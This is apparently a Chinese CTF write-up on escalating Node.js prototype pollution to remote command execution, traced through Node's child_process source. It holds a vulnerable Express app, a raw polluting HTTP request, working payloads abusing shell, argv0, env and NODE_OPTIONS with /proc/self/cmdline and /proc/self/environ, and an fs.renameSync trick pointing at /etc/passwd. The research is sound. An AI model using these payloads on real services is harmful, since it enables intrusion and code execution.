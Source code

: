 # nodejs 原型链污染到命令执行

!!! node
    原型链污染是nodejs中比较常见的漏洞，但如何利用原型链污染最终命令执行往往需要结合一些第三方库。
    其实在nodejs的源码中，也存在可以利用的地方。

## 研究生赛中的一道题

??? node "主要代码 app.js"
    ```javascript
    const express = require("express");
    const merge = require("./utils/merge");
    const fs = require("fs");
    const multer = require("multer");
    const bodyParser = require("body-parser");
    const { execSync } = require("child_process");
    const PORT = process.env.PORT || 81;
    const app = express();
    
    var db = [];
    var objMulter = multer({ dest: "./public/upload" });
    app.use(objMulter.any());
    app.use(express.static("./public"));
    app.use(bodyParser.urlencoded());
    
    app.post("/upload", (req, res) => {
    
        try{
            
            console.log(req.files)
            let oldPath = req.files[0].path;//["file:///app/public/flag"]
            let newPath = oldPath + ".jpg";
            let data = {type: "image", path: newPath};
            fs.renameSync(oldPath, newPath);
            
            merge(data, req.body);
            db.push(data);
            res.send(`<script>alert("upload in " + location.origin  + "${newPath.slice(6)}");location="/";</script>`);
            return;
        }catch{
            res.send("<script>alert('出错了！');location='/';</script>");
            return;
        }
    });
    
    app.get("/getImg", (req, res) => {
        res.send(db);
        return;
    });
    
    app.get("/rm", (req, res) => {
        try{
            console.log("a")
            execSync("rm -rf /app/public/upload/*");
            db = [];
            res.send("<script>alert('全都删完喽！');location='/';</script>")
            return;
        } catch{
            res.send("<script>alert('出错了！');location='/';</script>");
            return;
        }
    });
    
    app.listen(PORT, () => {
        console.log(`listen at ${PORT}`);
    });
    ```
上面的题目通过下面的请求，可以容易的原型链污染。
```
POST /upload HTTP/1.1
Host: 127.0.0.1:81
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Length: 300
Content-Type: multipart/form-data; boundary=df16a984e58633372c92c2c1268ca06e

--df16a984e58633372c92c2c1268ca06e
Content-Disposition: form-data; name="constructor[prototype][fileFilter]"

111111111
--df16a984e58633372c92c2c1268ca06e
Content-Disposition: form-data; name="image"; filename="1.txt"
Content-Type: text/plain

13123123
--df16a984e58633372c92c2c1268ca06e--

```
    
但比赛现场没有找到最后rce的方法。赛后找到了几篇文章。
!!! prototype-pollution-to-rce 
    [https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce)

## child_process 

### exec
```js
// environ trick - not working
// It's not possible to pollute the .env attr to create a first env var
// because options.env is null (not undefined)

// cmdline trick - working with small variation
// Working after kEmptyObject (fix)
const { exec } = require('child_process');
p = {}
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.argv0 = "console.log(require('child_process').execSync('touch /tmp/exec-cmdline').toString())//"
p.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"
var proc = exec('something');

// stdin trick - not working
// Not using stdin

// Windows
// Working after kEmptyObject (fix)
const { exec } = require('child_process');
p = {}
p.__proto__.shell = "\\\\127.0.0.1\\C$\\Windows\\System32\\calc.exe"
var proc = exec('something');
```
![1700121313965](image/proto2rce/1700121313965.png)

结合上面的paylaod，再通过调试node源码，发现在normalizeExecArgs函数中的options.shell的确可以被污染。
![1700123166885](image/proto2rce/1700123166885.png)
通过输出可以知道options.shell控制了

继续跟进可以在normalizeExecFileArgs 中发现另一个可以污染的变量argv0。
![1700123503801](image/proto2rce/1700123503801.png)

跟到normalizeSpawnArguments 中可以看到将argv0插到args的最前面，并根据不同的平台选择不同的shell。
![1700123872212](image/proto2rce/1700123872212.png)

最后可以跟到调用this._handle.spawn(options);再往下就要调试c++源码了。
![1700125261789](image/proto2rce/1700125261789.png)

但还没出现NODE_OPTIONS这个变量,去查文档最后知道是通过环境变量的方式导入模块.具体为什么要导入就暂时不探究了.
!!! node "NODE_OPTIONS"
    [NODE_OPTIONS](https://nodejs.org/api/cli.html#-r---require-module)
    ![1700125466484](image/proto2rce/1700125466484.png)

### execSync
和上面exec一样的paylaod也是可以触发的,不过最后会报错.
文章中给的下面的方式也是可以的,最后同样会报错.
```js
// environ trick - working with small variation (shell and argv0)
// Working after kEmptyObject (fix)
const { execSync } = require('child_process');
p = {}
// If in windows or mac you need to change the following params to the path of ndoe
p.__proto__.argv0 = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.env = { "EVIL":"console.log(require('child_process').execSync('touch /tmp/execSync-environ').toString())//"}
p.__proto__.NODE_OPTIONS = "--require /proc/self/environ"
var proc = execSync('something');

```

## fs.renameSync

再贴一个fs中的用来重命名文件的
```js
const fs = require("fs");

b = ["file:///tmp/execSync-environ"]

a = {}

a.__proto__.href = "file:///etc/passwd"

a.__proto__.origin = "a"
a.__proto__.protocol="file:"
a.__proto__.password =""
a.__proto__.username = ""
a.__proto__.port = ""
a.__proto__.search = ""
a.__proto__.hostname = ""
a.__proto__.pathname = "/etc/passwd"
fs.renameSync(b,"file:///tmp/execSync-environ222")
```
问题出在getValidatedPath中
![1700127663888](image/proto2rce/1700127663888.png)
!!! abstract
    但这个其实还挺鸡肋的,需要传入renameSync的第一参数是数组,所以用处不大.